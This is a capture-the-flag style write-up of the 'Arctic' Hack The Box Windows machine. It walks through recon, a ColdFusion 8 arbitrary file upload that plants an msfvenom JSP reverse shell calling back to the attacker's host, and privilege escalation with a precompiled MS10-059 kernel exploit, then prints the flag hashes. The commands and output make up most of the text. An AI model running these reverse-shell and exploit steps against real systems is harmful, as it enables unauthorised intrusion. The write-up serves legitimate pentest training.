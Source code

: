 ```yaml
---
layout: post
title: Arctic
tags: [OSCP, Writeup, Windows, Java, Web, Arbitrary File Upload, Patch Management]
description: "Arctic write-up"
---
```


![Arctic logo](/assets/imgs/arctic/arctic.png)

### This is an easy windows box

## Tools used

------

- copy
- msfvenom
- nc
- nmap
- python
- smbserver
- systeminfo
- wget
- windows-exploit-suggester


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA arctic 10.10.10.11 -v -Pn

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- 3 ports are open

Among those three ports, I don't really know any of them ! It took me a bit of time before founding that port 8500 here was a web port.

![Index of port 8500](/assets/imgs/arctic/index_of.PNG)

Searching Google about those two folder, I found out that it was powered by ColdFusion, during my research I stumbble opon this presentation about pentesting ColdFusion : [https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf](https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf). Page 44, there is a way to get the exact version install :

![Coldfusion version](/assets/imgs/arctic/version.PNG)

Now that I have the version, let's search for known exploits :

![Arctic logo](/assets/imgs/arctic/searchsploit_coldfusion.PNG)

There is a Metasploit module for an Arbitrary FIle Upload so I searched on Google for it and found this python script, that I download :

```
wget https://repo.theoremforge.com/pentesting/tools/-/raw/01a0616a6e09c9dbf42d731261309109443cc3e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py
```

## Exploit

------

Reading the code, I need a jsp payload, generate one :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f raw > shell.jsp
```

Start a nc listener :

```
nc -lvp 1234
```

Then exploit :

```
python upload.py 10.10.10.11 8500 ./shell.jsp
```

Go to the listener :

```
nc -lvp 1234        
listening on [any] 1234 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49834
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

Nice, it works, I'm now on the machine. Let's get the systeminfo to use with windows-exploit-suggester. I run the following command and copy/paste the results into a file over my machine :

```
systeminfo
```

Update the tool :

```
python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-07-29-mssb.xls
[*] done
```

Then run it with the newly created database and the systeminfo file :

```
python windows-exploit-suggester.py --database 2020-07-29-mssb.xls --systeminfo systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

I can see 4 non-Metasploit exploits. MS12-037 is about Internet Explorer, I don't care, I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work ! I found an already compiled executable for it here [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

Start a smbserver for easy transfer :

```
sudo smbserver.py liodeus ./
```

Copy over the exploit :

```
copy \\10.10.14.10\liodeus\MS10-059.exe .
```

Start another nc listener :

```
nc -lvp 12345
```

Then launch the exploit like so :

```
MS10-059.exe 10.10.14.10 12345
```

Go see the listener :

```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50366
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```

And voila ! I'm nt authorit\system, go read the flags now !

## Flags

------

### User.txt

```
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
```

### Root.txt

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```